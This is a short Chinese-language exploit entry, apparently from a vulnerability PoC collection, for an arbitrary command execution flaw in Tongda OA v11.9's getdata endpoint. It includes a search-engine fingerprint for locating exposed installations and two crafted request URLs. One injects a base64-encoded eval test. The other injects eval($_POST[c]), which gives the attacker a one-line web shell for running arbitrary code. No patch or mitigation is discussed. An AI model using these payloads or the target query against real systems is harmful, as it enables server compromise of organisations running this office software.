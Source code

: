 # 通达OA v11.9 getdata 任意命令执行漏洞

# 通达OA v11.9 getdata 任意命令执行漏洞

## 漏洞描述

通达OA v11.9 getdata接口存在任意命令执行漏洞，攻击者通过漏洞可以执行服务器任意命令控制服务器权限

## 漏洞影响

```
通达OA v11.9
```

## 网络测绘

```
app="通达OA网络智能办公系统"
```

## 漏洞复现

登录页面

![image-20221008102828374](/images/202210081028459.png)

验证POC

```
/general/appbuilder/web/portal/gateway/getdata?activeTab=%E5%27%19,1%3D%3Eeval(base64_decode(%22ZWNobyB2dWxuX3Rlc3Q7%22)))%3B/*&id=19&module=Carouselimage
```

![image-20221008102844264](/images/202210081028320.png)

```
/general/appbuilder/web/portal/gateway/getdata?activeTab=%E5%27%19,1%3D%3Eeval($_POST[c]))%3B/*&id=19&module=Carouselimage
```

